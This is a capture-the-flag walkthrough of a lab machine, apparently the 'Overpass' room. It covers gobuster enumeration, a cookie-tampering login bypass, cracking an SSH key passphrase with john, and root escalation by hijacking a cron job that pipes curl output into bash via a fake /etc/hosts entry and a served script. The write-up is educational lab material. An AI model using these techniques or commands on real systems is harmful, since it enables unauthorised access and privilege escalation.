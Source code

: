 ## **Machine IP**
> 10.10.161.104

## Inference
1. Found http and ssh running on the machine.
2. Used gobuster to find directories on the ip and found an admin portal.
3. The admin portal is using a javascript in backend to communicate the server.
4. Changed the javascript file `Cookies.set("SessionToken",statusOrCookie)` to `Cookies.set("SessionToken","")`, this will change the cookie to desired admin-cookie. 
5. We are in.
6. Page shows private RSA Key which is  a SSH Key.
7. We will copy the complete key and save it as `id_rsa`.
8. Then we will convert in into hash by 
```console
/usr/share/john/ssh2john.py id_rsa > id_rsa.hash
```
9. Then we will crack the hash by 
```console
john --wordlist=/usr/share/wordlist/rockyou.txt id_rsa.hash
```
10. Found the password *james13*.
11. Used the key to login by 
```
chmod 600 id_rsa && ssh -i id_rsa john@10.10.161.104
```
12. We are in and got user flag in `user.txt`.
13. We will download linpeas on aur host machine by 
```console
wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh
```
and will roll up a python https server in the same directory by 
```console
python3 -m http.server
```
14. Then we will download linpeas with 
```console
wget http://{your ip}:8000/linpeas.sh && chmod +x linpeas.sh && ./linpeas.sh
```
15. Found a cron job which can download any script we want as **ROOT** `curl overpass.thm/downloads/src/buildscript.sh | bash`.
16. So we will create a fake buildscript.sh in `downloads/src/buildscript.sh` and add 
```console
cat /root/root.txt > /home/john/stuff.txt
```
script in buildscript.sh. 
17. We will update overpass.thm to our ip in `/etc/hosts`. 
18. Then we will run up new server in directory with `downloads/src/buildscript.sh`.
19. Read stuff.txt in `/home/james` and that is the root.txt.
